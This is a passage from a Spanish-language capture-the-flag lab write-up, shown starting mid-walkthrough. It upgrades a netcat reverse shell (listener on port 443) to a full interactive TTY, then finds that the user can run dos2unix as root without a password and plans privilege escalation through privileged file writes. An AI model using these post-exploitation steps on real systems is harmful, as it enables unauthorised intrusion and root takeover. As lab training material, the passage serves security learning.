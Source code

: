 Hacemos un tratamiento de la TTY para poder hacer `Ctrl + C` y `Ctrl + L`, lo haremos cómodamente a través de `python3`, porque con el comando `script` la shell nos dice: "Hasta la próximaaaa..."

~~~ bash
pepe@5c050710a415:/$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
pepe@5c050710a415:/$ export TERM=xterm
export TERM=xterm
pepe@5c050710a415:/$ export SHELL=/bin/bash
export SHELL=/bin/bash
pepe@5c050710a415:/$ ^Z
[1]  + 212803 suspended  nc -lvnp 443
root@parrot exploits # stty raw -echo;fg
[1]  + 212803 continued  nc -lvnp 443
                                     reset xterm
pepe@5c050710a415:/$ stty columns 189 rows 44
~~~


## Sudoers Privileges - `dos2unix`

Listaremos nuestros privilegios `sudo` para ver si tenemos acceso a un recurso nuevo el cual podamos explotar para elevar nuestros privilegios

~~~ bash
pepe@5c050710a415:/$ sudo -l
Matching Defaults entries for pepe on 5c050710a415:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User pepe may run the following commands on 5c050710a415:
    (ALL : ALL) NOPASSWD: /usr/bin/dos2unix
~~~

Tenemos capacidad de ejecutar `dos2unix` sin proporcionar contraseña y como cualquier usuario. Con la capacidad de escritura de archivos con `dos2unix`, podemos llevar a cabo una escalada de privilegios mediante una escritura privilegiada

![image-center](/assets/images/posts/bruteshock-dos2unix-gtfobins.png){: .align-center}
